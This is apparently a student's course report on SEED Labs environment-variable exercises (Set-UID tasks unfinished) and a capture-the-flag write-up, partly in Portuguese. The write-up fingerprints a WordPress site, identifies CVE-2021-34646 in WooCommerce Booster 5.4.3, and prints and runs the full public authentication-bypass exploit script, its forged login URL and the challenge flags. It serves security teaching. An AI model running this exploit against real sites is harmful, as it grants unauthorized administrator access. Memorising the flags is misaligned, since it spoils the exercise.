








# Trabalho realizado na Semana #4

# SeedLabs Tasks

## Task 1 : Manipulating Environment Variables

<figure>
   
   <figcaption><strong>Fig 1. </strong> Usage of &quot;printenv&quot;</figcaption>
</figure>

<figure>
   
   <figcaption><strong>Fig 2. </strong> Usage of &quot;env&quot;</figcaption>
</figure>

<figure>
   
   <figcaption><strong>Fig 3. </strong>Usage of &quot;export&quot;</figcaption>
</figure>

<figure>
   
   <figcaption><strong>Fig 4. </strong>Usage of &quot;unset&quot;</figcaption>
</figure>

In this task we learn that:

- *printenv* and *env* are used to display the environment variables set in a machine.

- To search for a specific environment variable, we can use `printenv <ENV_VAR>` or `env | grep <ENV_VAR>`

- To add an environment variable we can use *export*, like `export <ENV_VAR>=<ENV_VAL>`

- To remove an environment variable we can use *unset*, like `unset <ENV_VAR>`

---

## Task 2 : Passing Environment Variables from Parent Process to Child Process

In the `Labsetup` folder, you'll find a file called `myprintenv.c`.

1. Compile the `myprintenv.c` file using `gcc myprintenv.c`.
2. Execute the program and save its output a file using `a.out > child_env`. 
3. Comment out the line marked with 1 and uncomment the line marked with 2.
4. Compile the program again using `gcc myprintenv.c`.
5. Execute the program and save its output to another file using `a.out > parent_env`.
6. Compare the two outputs using `diff parent_env child_env`.

No output is given in step 6, indicating that all environment variables are inherited with fork.

<figure>
   
   <figcaption><strong>Fig 5. </strong>Overview of task 2</figcaption>
</figure>

## Task 3 : Environment Variables and *execve()*

In the `Labsetup` folder, you'll find a file called `myenv.c`.
### Step 1


<figure width="50%">
   
   <figcaption><strong>Fig 5. </strong>Running environ.c</figcaption>

</figure>

The program has no results, since it doesn't inherit any environment variable.

We can see why if we read *execve()* manpage. The function signature is:

```c
int execve(const char *pathname, char *const argv[],
                  char *const envp[]);
```

The string array *envp* is supposed to have the environment variables and, in this case, we pass *NULL* to it, so, no environment variables are inherited. 

### Step 2

<figure width="50%">
   
   <figcaption><strong>Fig 6.</strong>Running environ.c</figcaption\>

</figure>

After adding the environment variables present in *environ* (environment variables array) in the function's parameter *envp*, the program now prints all the environment variables, similar to Task 2.

### Step 3

The new program gets its environment variables from the third argument of the *execve*'s function: The *environ* variable, which is essentially an array that contains all the environment variables.

---
## Task 4 : Environment Variables and system()

Using the *system* we have the same results, as expected, since, in reality, we are calling the function:

```c
execl("/bin/sh", "sh", "-c", "usr/bin/env", (char *) NULL);
```

Which will afterwards use the *execve* function and the results will be the same (all the environment variables will be printed)

---
## Task 5 : Environment Variable and Set-UID Programs

### Step 2

```bash
[10/02/22]seed@VM:~/.../Labsetup$ gcc newprog.c
[10/02/22]seed@VM:~/.../Labsetup$ sudo chown root a.out
[10/02/22]seed@VM:~/.../Labsetup$ ll a.out 
-rwxrwxr-x 1 root seed 16768 Oct  2 21:20 a.out
[10/02/22]seed@VM:~/.../Labsetup$ sudo chmod 4755 a.out 
[10/02/22]seed@VM:~/.../Labsetup$ ll a.out 
-rwsr-xr-x 1 root seed 16768 Oct  2 21:20 a.out
```

### Step 3

<TODO>

---
## Task 6 : The PATH Environment Variable and Set-UID Programs

<TODO>

---
## Task 7 : The LD PRELOAD Environment Variable and Set-UID Programs

<TODO>

---

# CTF

## Challenge 1

O desafio 1 consiste em descobrir o CVE presente no website disponibilizado que permite adquirir

### Recon

Nota: Todo este processo poderia ter sido automatizado usando uma ferramenta como o [wpscan](https://wpscan.com/), contudo optamos por uma abordagem manual.

Na fase de recon, começamos por verificar as tecnologias utilizadas no site:

#### Step 1 - Descobrir as tecnologias utilizadas

```bash
❯ whatweb http://ctf-fsi.fe.up.pt:5001
http://ctf-fsi.fe.up.pt:5001/ [200 OK] Apache[2.4.54], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.54 (Debian)], IP[10.227.243.188], JQuery[3.6.0], MetaGenerator[WooCommerce 5.7.1,WordPress 5.8.1], PHP[8.0.23], Script[application/ld+json,text/javascript], Title[Secure WP Hosting &#8211; Military-grade secure hosting], UncommonHeaders[link], WordPress[5.8.1], X-Powered-By[PHP/8.0.23]
```

Sabemos agora que o website usa `wordpress` para o hosting, tal como podemos ver na homepage do mesmo.

#### Step 2 - Enumerar as versões utilizadas

Começamos por enumerar a versão do wordpress, acedendo ao endpoint [http://ctf-fsi.fe.up.pt:5001/comments/feed/](http://ctf-fsi.fe.up.pt:5001/comments/feed/), no qual descobrimos que a versão utilizada é a `5.8.1`.

Para enumerar os plugins vimos as stylesheets e os scripts utilizados e descobrimos uma stylesheet com o nome `woocommerce.css`. Como [Woocommerce](https://wordpress.org/plugins/woocommerce/) é um plugin conhecido de Wordpress, fomos pesquisar um pouco sobre ele e descobrimos que neste website está a ser usado o package [Wordpress Booster](http://ctf-fsi.fe.up.pt:5001/wp-content/plugins/woocommerce-jetpack/readme.txt) na versão `5.4.3`.

Pesquisando esta versão descobrimos que era vulnerável ao [CVE-2021-34646](https://nvd.nist.gov/vuln/detail/CVE-2021-34646).

```bash
❯ searchsploit WooCommerce Booster  5.4.3
----------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                   |  Path
----------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass                                        | php/webapps/50299.py
----------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Este CVE permite dar Bypass à autenticação, sem permissões para o fazer, adequando-se então à descrição da challenge e sendo a flag: `flag{CVE-2021-34646}`

#### Step 3 - Enumerar os users existentes

Para enumerar os users existentes podemos aceder ao enpoint [ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/?per_page=100&page=1](ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/?per_page=100&page=1), no qual descobrimos, entre outras informações, a existência do user `admin`.

Ao descobrir isto tentamos imediatamente aceder ao `wp-admin` e testar as credenciais default `admin:admin`, mas neste caso, sem resultado.  

## CTF - Desafio 2

### Exploitation

Após sabermos que conseguiamos dar bypass à autenticação com este exploit e a existência do user `admin`, trata-se de uma questão de alterar o exploit e corrê-lo na instầncia do website:

#### Step 1 - Correr o Exploit

O exploit existente é:

```python
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)

def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()


for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")
```

Após lermos o exploit e termos uma ideia de como funciona, percebemos que para corrê-lo basta passar os argumentos `url` e `id` (id do user admin, encontrado na fase de enumeração [1])

```bash
❯ python /usr/share/exploitdb/exploits/php/webapps/50299.py http://ctf-fsi.fe.up.pt:5001/ 1
Timestamp: Sun, 02 Oct 2022 18:14:05 GMT
Timestamp (unix): 1664734445

We need to generate multiple timestamps in order to avoid delay related timing errors
One of the following links will log you in...

#0 link for hash 4f2b6aac39e69113227cda21f4d56b54:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiNGYyYjZhYWMzOWU2OTExMzIyN2NkYTIxZjRkNTZiNTQifQ
```

#### Step 2 - Aceder ao url resultante do script

Após aceder ao url resultante do script obtemos acesso de admin

<figure width="50%">
   
   <figcaption><strong>Fig 1.</strong> Admin Authentication Bypass</figcaption>

</figure>

### Step 3 - Aceder ao endpoint da flag

De seguida, precisamos apenas de aceder ao endereço fornecido no moodle (http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php) para ver os posts feitos pelo admin e abrir o post privado "Message to our employees", do qual podemos obter a flag: `flag{please don't bother me}`.
